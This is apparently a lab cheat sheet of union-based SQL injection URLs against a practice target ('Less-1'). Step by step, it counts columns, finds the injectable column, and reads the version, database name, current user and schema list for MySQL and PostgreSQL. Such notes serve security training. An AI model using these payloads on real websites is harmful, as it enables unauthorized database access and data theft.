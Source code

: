 `http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---

#### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

(using the same amount of columns you got on the previous step)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

(using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` 


#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` 


#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`


#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`
